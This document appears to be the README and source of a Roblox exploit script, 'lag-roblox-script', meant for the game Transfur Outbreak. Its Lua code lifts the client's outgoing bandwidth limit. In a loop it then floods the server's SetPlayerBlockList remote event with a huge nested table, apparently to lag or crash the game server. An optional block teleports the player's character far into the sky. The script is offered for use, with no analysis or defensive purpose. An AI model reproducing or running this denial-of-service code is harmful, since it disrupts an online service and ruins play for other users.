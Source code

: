 # lag-roblox-script
this mostly works on T.O (transfur outbreak)


shared.TeleportToSky = false -- for games that show ur ping (dont use for T.O)

if shared.TeleportToSky then
local char = game:GetService('Players').LocalPlayer.Character
char.HumanoidRootPart.CFrame = CFrame.new(0,9e9,0)
task.wait(0.5)
char.HumanoidRootPart.Anchored = true
end
while wait(1.5) do --// don't change it's the best
game:GetService("NetworkClient"):SetOutgoingKBPSLimit(math.huge * math.huge)
local function getmaxvalue(val)
   local mainvalueifonetable = 499999
   if type(val) ~= "number" then
       return nil
   end
   local calculateperfectval = (mainvalueifonetable/(val+2))
   return calculateperfectval
end
 
local function bomb(tableincrease, tries)
local maintable = {}
local spammedtable = {}
 
table.insert(spammedtable, {})
z = spammedtable[1]
 
for i = 1, tableincrease do
    local tableins = {}
    table.insert(z, tableins)
    z = tableins
end
 
local calculatemax = getmaxvalue(tableincrease)
local maximum
 
if calculatemax then
     maximum = calculatemax
     else
     maximum = 999999
end
 
for i = 1, maximum do
     table.insert(maintable, spammedtable)
end
 
for i = 1, tries do
     game.RobloxReplicatedStorage.SetPlayerBlockList:FireServer(maintable)
end
end
 
bomb(1, 2) 
end
